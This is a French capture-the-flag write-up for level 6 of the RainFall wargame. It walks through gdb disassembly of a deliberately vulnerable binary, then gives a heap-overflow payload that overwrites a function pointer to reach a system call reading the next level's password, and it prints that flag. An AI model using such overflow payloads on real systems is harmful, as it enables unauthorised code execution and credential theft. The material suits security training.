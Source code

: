 # Level 6

En décompilant le main du binaire, nous voyons qu'il fait appel à deux [`malloc`](https://linux.die.net/man/3/malloc) à la suite : un premier de 64 octets et un second de 4 octets.  
Le premier malloc sera utilisé pour copier `argv[1]` et le deuxième contiendra l'addresse de la fonction `m` (ce qui en fait un pointeur sur fonction), qui sera appellée après le `strcpy`.  
On peux aussi s'apercevoir qu'il existe une seconde fonction non utilisée dans le main, la fonction `n`. Cette dernière utilise `system` pour `cat` le fichier `.pass` de l'utilisateur level7.

On va utiliser `strcpy` pour copier `argv[1]` dans `dest->buff`. Le [manuel de `strcpy`](https://linux.die.net/man/3/strcpy) nous informe d'une faille :
>If the destination string of a strcpy() is not large enough, then anything might happen. Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine. Any time a program reads or copies data into a buffer, the program first needs to check that there's enough space.

On devrait donc pouvoir utiliser un [*heap overflow*](https://en.wikipedia.org/wiki/Heap_overflow).

On peut alors réécrire le pointeur sur fonction avec l'adresse de la fonction `n` (`0x8048454`) en copiant 64 octets + 8 octets de métadonnées du malloc pour copier ensuite l'adresse de `n` dans le pointeur sur fonction.

```shell
level6@RainFall:~$ gdb level6
(gdb) disas main
Dump of assembler code for function main:
[...]
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
[...]
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
[...]
End of assembler dump.
(gdb) info func
All defined functions:
Non-debugging symbols:
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
(gdb) disas m
Dump of assembler code for function m:
[...]
   0x0804846e <+6>:	movl   $0x80485d1,(%esp)
   0x08048475 <+13>:	call   0x8048360 <puts@plt>
[...]
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
[...]
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
[...]
End of assembler dump.
(gdb) x/s 0x80485b0
0x80485b0:	 "/bin/cat /home/user/level7/.pass"
(gdb) quit
~ ./level6 $(python -c 'print "B"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```